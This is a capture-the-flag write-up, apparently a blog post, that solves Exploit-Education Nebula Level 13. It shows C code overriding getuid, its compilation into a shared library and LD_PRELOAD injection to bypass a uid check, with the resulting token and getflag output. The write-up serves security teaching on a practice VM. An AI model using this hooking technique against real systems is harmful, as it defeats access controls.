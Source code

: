 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 13"
date:   2019-08-19 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 13](https://exploit.education/nebula/level-13/)

## Challenge
There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id.

To do this level, log in as the `level13` account with the password `level13`. Files for this level can be found in `/home/flag13`.

So it seems to be a simple program. A `getuid` function call is made and if the returned `uid` is 1000, the program
displays the token.
## Vulnerability
```cpp
if(getuid() != FAKEUID) {
```
We can abuse the `LD_PRELOAD` env variable to intercept the `getuid` function call.  
[Abusing LD_PRELOAD](https://www.sweharris.org/post/2017-03-05-ld-preload/)
>LD_PRELOAD lists shared libraries with functions that override the standard set, just as /etc/ld.so.preload does.
>These are implemented by the loader /lib/ld-linux.so. If you want to override just a few selected functions, 
>you can do this by creating an overriding object file and setting LD_PRELOAD; the functions in this object file will ?>override just those functions leaving others as they were.  

So basically we can override any function calls made by a program by creating our own shared library and loading it 
using the `LD_PRELOAD` env variable. So lets write a `c` program to override the `getuid` function and compile it as
a shared library.
## Solution
```cpp
level13@nebula:~$ cat gid.c
#include <sys/types.h>
uid_t getuid(void)
{
return 1000;
 }
```
Compile it as a shared library and set the `LD_PRELOAD` variable to point to our compiled file
```bash
gcc -o getuid.so -fPIC -shared gid.c -ldl
LD_PRELOAD=$PWD/getuid.so
```
There is one restriction. The shared library and the program loading it should have the same `uid` or it wont work. Since we have read permissions, lets just copy the file to the home directory and run it.
```bash
level13@nebula:/home/flag13$ cp flag13 /home/level13/flag13
level13@nebula:~$ ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
level13@nebula:~$ su -l flag13
Password:
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Solved!